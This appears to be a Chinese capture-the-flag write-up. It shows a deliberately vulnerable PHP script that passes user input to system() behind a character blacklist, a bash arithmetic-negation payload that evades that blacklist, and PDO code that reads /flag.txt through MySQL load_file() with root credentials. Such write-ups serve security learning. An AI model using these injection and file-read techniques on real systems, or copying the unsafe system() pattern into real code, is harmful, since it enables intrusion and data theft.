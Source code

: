     <?php

    /*
    # -*- coding: utf-8 -*-
    # @Author: h1xa
    # @Date:   2020-09-05 20:49:30
    # @Last Modified by:   h1xa
    # @Last Modified time: 2020-09-08 01:02:56
    # @email: h1xa@ctfer.com
    # @link: https://ctfer.com
    */

    // 还能炫的动吗？
    //flag in 36.php
    if(isset($_GET['c'])){
        $c=$_GET['c'];
        if(!preg_match("/\;'[a-z]'[0-9]'\<code>'\'\#'\''\"'\</code>'\%'\x09'\x26'\x0a'\>'\<'\.'\,'\?'\*'\-'\='\[/i", $c)){
            system("cat ".$c.".php");
        }
    }else{
        highlight_file(__FILE__);
    }

payload：

    ?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

### 通过数据库读取文件

在Mysql等语言中，是存在方式直接读取文件的，例如Mysql可以使用`load_file()`函数。当然这种读取方式是需要获取数据库信息的。

下面是用PHP建立数据库连接并读取文件的示例：

    c = try{
        $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
        foreach($dbh->query('select load_file("/flag.txt")') as $row){
            echo $row[0]." ";
        }
        $dbh = null;
    }catch(PDOException $e){
        echo $e->getMessage();
        exit(0);
    }
